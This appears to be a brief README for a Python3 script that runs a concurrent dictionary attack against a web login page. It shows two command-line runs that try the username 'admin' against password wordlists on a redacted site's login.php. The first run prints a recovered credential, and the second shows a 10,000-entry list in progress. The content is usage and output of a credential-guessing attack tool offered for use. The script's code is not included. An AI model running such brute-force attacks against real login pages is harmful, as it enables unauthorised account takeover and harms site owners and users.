 ### Example concurrent webpage login dictionary attack script in Python3

    $ python3 login-dict-attack.py admin /usr/share/wordlist/passwords.txt https://***.com/123123/login.php 
    Prepared wordlist in memory with 5 entries.
    [+] admin:1999


    $ python3 login-dict-attack.py admin /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt https://***.com/123123/login.php
    Prepared wordlist in memory with 10000 entries.
    296 of 10000